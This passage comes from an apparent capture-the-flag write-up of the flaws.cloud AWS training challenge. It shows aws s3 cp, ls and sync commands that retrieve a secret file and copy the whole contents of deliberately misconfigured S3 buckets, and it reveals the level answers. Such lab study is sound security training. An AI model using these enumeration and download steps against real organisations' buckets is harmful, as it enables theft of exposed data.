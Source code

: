 > I replaced the 'http' to 's3'
> I was able to access the the s3 resource because my aws are configured
> The intended solution should to learn how to configure aws keys and we already done that in our set up

Now, we'll copy the secret again to our local machine using `cp` command

```
aws s3 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html secret.html

```

![image](https://github.com/user-attachments/assets/84e7d157-b3f9-492a-9558-2465070e381a)

Then we open the file in our terminal again using

```
                                                                                                                                                                 
┌──(aaron㉿kali)-[~/cloud-hacking/level2]
└─$ cat secret.html| html2text
                      _____  _       ____  __    __  _____
                     |     || |     /    ||  |__|  |/ ___/
                     |   __|| |    |  o  ||  |  |  (   \_
                     |  |_  | |___ |     ||  |  |  |\__  |
                     |   _] |     ||  _  ||  `  '  |/  \ |
                     |  |   |     ||  |  | \      / \    |
                     |__|   |_____||__|__|  \_/\_/   \___|
              ****** Congrats! You found the secret file! ******
Level 3 is at http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
                                                                            
```

![image](https://github.com/user-attachments/assets/84146a37-8e1c-4fc0-9c0c-513144d2881e)

## Level 3
url : http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud

So, this this time, we successfully connected to the bucket, however

```
aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud

```

![image](https://github.com/user-attachments/assets/a210bfed-31e6-4ea4-aeb8-d62003b3360d)

In my end since there is no secret listed and we have to invesitgate each file, we have to download this files in our local machine. To do that, I used another aws command callled ```sync```, 

```
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud .
```

And if you list files in our current working directory we should see this

![image](https://github.com/user-attachments/assets/9dbfa7fd-9a80-4c83-b7af-8096848dc273)

